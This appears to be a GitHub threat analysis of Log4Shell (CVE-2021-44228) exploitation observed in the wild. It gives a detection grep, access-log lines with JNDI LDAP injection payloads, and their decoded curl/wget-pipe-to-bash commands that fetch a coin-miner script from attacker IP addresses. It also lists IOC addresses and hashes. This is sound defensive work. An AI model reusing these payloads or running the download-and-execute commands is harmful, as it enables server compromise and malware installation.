 # CVE-2021-44228

## Exploitation detection

[Florian Roth](https://twitter.com/cyb3rops) provided [different methods to detect exploitation](https://gist.github.com/Neo23x0/e4c8b03ff8cdf1fa63b7d15db6e3860b).

## Exploitation examples

### Example 1 : Coin miner

**Stage 1**

Exploitation detection done via following command on logs 
```bash 
sudo egrep -i -r '\$\{jndi:(ldap[s]?|rmi|dns):/[^\n]+' /var/log
```

Results with truncated Base64

```bash
/var/log/apache2/access.log:45.155.205.233 - - [10/Dec/2021:13:07:34 +0000] "GET / HTTP/1.1" 200 3424 "-" "${jndi:ldap://45.155.205.233:12344/Basic/Command/Base64/KGN1cmwgLXMgNDUuMTU1LjIwNS4yMzM6NTg3NC81MS45MS4yNC4xNjE6ODB8fHdnZXQgLXEgLU8tIDQ1LjE1NS4yMDUuMjMzOjU4NzQvNTxxxxxxxxxxxxxxxxxxxxx}"
```

Base64 decode to 

```bash
(curl -s 45.155.205.233:5874/xxx.xxx.xxx.xxx:80||wget -q -O- 45.155.205.233:5874/xxx.xxx.xxx.xxx:80)|bash
```

xxx.xxx.xxx.xxx is the target server tested if vulnerable. If vulnerable the server will do a hit on 45.155.205.233 port 5874/tcp

First seen of 45.155.205.233 is on December 4th and first attempts to exploit CVE-2021-44228 on December 10th

45.155.205.233 attempted to exploit other vulnerabilities - ***To be developed***.

**Stage2**

Once a hit is done on 45.155.205.233, another source enter into action.

```bash
access.log:109.237.96.124 - - [10/Dec/2021:15:25:30 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:25:52 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:212.193.57.225 - - [10/Dec/2021:15:54:59 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
access.log:62.76.41.46 - - [10/Dec/2021:16:13:56 +0000] "POST / HTTP/1.1" 200 3424 "-" "${jndi:ldap://80.71.158.12:5557/Basic/Command/Base64/KGN1cmwgLXMgODAuNzEuMTU4LjEyL2xoLnNofHx3Z2V0IC1xIC1PLSA4MC43MS4xNTguMTIvbGguc2gpfGJhc2g=}"
```

With Base64 decoding to

```bash
(curl -s 80.71.158.12/lh.sh||wget -q -O- 80.71.158.12/lh.sh)|bash
```

**Stage 3**

``lh[.]sh`` [07b7746b922cf7d7fa821123a226ed36] (https://www.virustotal.com/gui/file/063ccf736c2c19ca5db70b8d8a7cf00377899c16023c63fee836bdefadd336c1) is a shell script downloading the bellow files but also implementing persistence via crontab.

![ls.sh](lssh-download.png)

``lh[.]sh`` download and install following binaries
- [648effa354b3cbaad87b45f48d59c616](https://www.virustotal.com/gui/file/6e25ad03103a1a972b78c642bac09060fa79c460011dc5748cbb433cc459938b)
- [ccef46c7edf9131ccffc47bd69eb743b](https://www.virustotal.com/gui/file/c38c21120d8c17688f9aeb2af5bdafb6b75e1d2673b025b720e50232f888808a)

A certain number of other IOCs appear into ``ls[.]sh`` file that are listed bellow



#### IOCs

45.155.205.233  
109.237.96.124  
212.193.57.225  
62.76.41.46  
80.71.158.12  
07b7746b922cf7d7fa821123a226ed36  
648effa354b3cbaad87b45f48d59c616  
ccef46c7edf9131ccffc47bd69eb743b 

#### Additional IOCs

207.38.87.6  
34.81.218.76  
42.112.28.216  
80.211.206.105  
207.38.87.6  
31.210.20.181  
3.215.110.66  
45.137.151.106  
111.90.159.106  
185.181.10.234  
146.71.79.230  
122.51.164.83  
185.191.32.198  
